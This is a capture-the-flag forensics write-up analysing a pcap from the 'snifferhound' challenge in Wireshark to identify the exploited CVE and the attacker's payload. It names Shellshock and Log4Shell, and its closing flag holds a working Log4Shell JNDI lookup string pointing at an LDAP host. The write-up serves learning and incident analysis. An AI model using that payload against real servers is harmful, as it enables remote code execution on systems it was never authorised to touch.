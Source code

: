 Hello folks!
Shehacksctf was wild, it was great to see hackers from all over the country compete at such a level. I played with the Seekers team and --spoiler alert-- we got first place. On day 2 of the competition the hosts added a few more challenges that made the race to first place even more intriguing. Apparently pwn challs were a no-go-zone for everyone who played, in the words of some.."John alikuwa na makasiriko when creating the challs" haha. Anyway there was one specific Forensics challenge which also had 0 solves, the snifferhound The Boss as the creator @adams_kro called it. 
![[Snifferhounddescr.png]]

Let's play around with it and see if it really was a hound. It was!

So as usual let's spin up wireshark and analyze the pcap file. 

At first glance, the pcap had a number of packets, and we can see two IP addresses from the SYN-ACK packets that may be the attacker and host IPs?
We'll delve into that in a bit, let's understand the pcap file first.

![[Snifferwireshark.png]]


First order is to check the pcap file properties. Important flags here in ctf context are the link type, time elapsed, the comments but it is also important to check the HASH of the file. From our pcap the capture duration was 13 minutes meaning the attacker probably did a lot in that time period. The attacker was connected via Ethernet to the network meaning they had physical access. It's also good to check the comments, some creators would add important details in the comment section. In this, the comment is empty so let's move forward.

![[Pasted image 20230924010705.png]]


The packet hierarchy shows the protocols used were UDP, TCP and ARP on IPv4 with a significant number of packets sent on each. Definitely something to look into more

![[Pasted image 20230924010215.png]]


From the challenge description we are told that the computer exploited had a vulnerability and we are required to find the exact cve and payload used for exploitation. There are a couple ways we could find this, one is by using strings filter in wireshark and search the packet details for a string named cve

![[Pasted image 20230924011835.png]]

You got to love wireshark!, we found packets with the string cve in the details.
![[Pasted image 20230924012140.png]]


The packet was sent by IP addr 192.168.56.102 to 192.168.56.104 which we confirmed to be the host. A GET request echoing "bash_cve_2014_6278..." with an output string. Now before we get too excited let's go back and check the challenge requirements. We are required to provide the CVE exploited and the first successful command the attacker executed on the victim machine. 

After inspecting the output a little more I discovered that there were a few other cve's that the attacker tried out on the host. A quick google search of the cve 2014_6278 showed that the vulnerability allows RCE on bash43-026 but based on how the attacker exploited this vulnerability, it was not used for shell!
_ref_: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278

Let's dig more!

A little recon on the host machine can help us narrow down the probable vulns that the attacker might have exploited. Had to do a quick search on this and found this nice resource.
_ref:_ https://unit42.paloaltonetworks.com/using-wireshark-identifying-hosts-and-users/
Based on the User-Agent info the host is a windows machine so be on the look out for vulns like log4shell. Spoiler alert! - No spoilers! finish the article

![[Pasted image 20230924014611.png]]

For the next bitter 10 or so minutes I went around checking packets based on different search filters and checking the host response and the packets that follow. This here is a log4shell routing packet that returned a 404 response an example of the many packets I had to analyze.
![[Pasted image 20230924014932.png]]

This method was not convenient so I instead used Statistics to check http requests sent and sorted by packet count. We see that /adamsapps/log4shellpoc had a significant amount of packets so let's use it in string search.
![[Pasted image 20230924022106.png]]

The attacker used nessus to scan for vulnerabilities, this explains the huge amount of payloads sent in that duration of time. Side note, would love to get a hold of the templates he/she used.
We got a 200 status code from this packet that exploited the log4shell vuln however from the Log entry we see that the POC is not complete. Sorting the packets based on timestamps showed that the attacker gained SSH access after sending this packet.

![[Pasted image 20230924022625.png]]

Doing a quick search on the log4shell vulnerability gave us the CVE number  CVE-2021-44228. The flag format would be shctf{CVE-2021-44228;${jndi:ldap://10.0.2.5:1389/a}}

This had been such a learning curve into using Wireshark for analysis. Quite an interesting ctf!
Remember to keep following the packets!